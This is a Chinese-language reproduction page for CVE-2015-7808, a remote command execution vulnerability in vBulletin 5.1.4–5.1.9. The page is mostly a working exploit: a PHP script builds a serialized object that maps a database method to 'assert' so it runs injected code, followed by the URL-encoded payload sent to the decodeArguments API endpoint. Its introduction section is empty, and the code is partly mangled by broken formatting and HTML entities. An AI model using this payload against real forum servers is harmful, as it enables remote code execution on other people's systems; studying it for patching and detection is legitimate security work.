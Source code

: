 # （CVE-2015-7808）VBulletin 远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3217](https://www.zhihuifly.com/t/topic/3217)

# （CVE-2015-7808）VBulletin 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

VBulletin VBulletin 5.1.4 - 5.1.9

## 三、复现过程

```
$ php << 'eof'
 <?php
 class vB_Database_MySQL{
        public $functions = array();

```
 public function __construct() 
    {
            $this-&gt;functions['free_result'] = 'assert';
    } 
```

}

class vB_dB_Result {

protected $db;

protected $recordset;

```
 public function __construct()
    {
            $this-&gt;db = new vB_Database_MySQL();
            $this-&gt;recordset = "phpinfo()";
    } 
```

} `print urlencode(serialize(new vB_dB_Result())) . “n”;

eof` 
```

```
http://0-sec.org/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D 
```

![image](img/da80244e114d31026479a1edf0fcc660.png)